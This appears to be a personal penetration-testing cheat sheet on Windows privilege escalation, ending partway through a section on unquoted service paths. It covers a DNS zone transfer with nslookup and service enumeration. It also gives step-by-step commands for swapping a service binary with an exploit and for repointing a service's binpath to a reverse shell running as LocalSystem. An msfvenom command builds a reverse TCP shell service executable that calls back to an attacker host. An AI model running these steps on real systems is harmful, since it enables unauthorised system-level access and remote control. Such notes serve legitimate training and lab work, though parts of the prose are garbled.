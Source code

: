 DNS Zone Transfer with `nslookup`
```
nslookup.exe
>server IP 
>ls -d domainname.com
```


# Escalation:

## Services
See [[Windows-Services]] and [[Windows-System-And-Service-Privileges]]
```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
# Look for \Program Files\* as they are User installed and DEv is charge directory structure and persmissions of Software.
```
Check here for detailed [[Windows-Permissions]] descriptions. 
```powershell
icacls *.exe
```
Replace executable with malicious binary, stop the original, get start options.
```batch
# compile PrivEsc code C,C++ and C# are probably best choices
move "*.exe" "original.exe.bkp" # backup
move exploit.exe "\*exe's\path"
net stop Vulnerable_Service
wmic service where caption="Vulnerable_Service" get name, caption, state, startmode
# Check the start mode and adjust accordingly
```

## Insecure service permissions
```batch
accesschk.exe /accepteula -uwcqv <user> <service> # sysinternals
sc qc <service>
sc config <service> binpath= "pathtoreverseshell.exe" obj= LocalSystem
net start <service>
# Or
sc stop <service>
sc start <service>
```
With powershell use:
```powershell
sc.exe # sc is Set-Content!
```
Use the correct format with msfvenom `-f exe-service`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4445 -f exe-service -o rev-svc.exe
```

## Unquoted Service Path
Attack then levages the algorithm that search for mapped relevant services additional alternate interpretable locations and between non-explicitly declared file paths with whitespace. Requires: 
1. Write permissions to a `service`'s main directory tree, but cannot replace files within the tree. 
2. The path to the service must contain `whitespace` character like third party software directory `\Program Files\Insert Your Software\Service Location\here.exe`; 

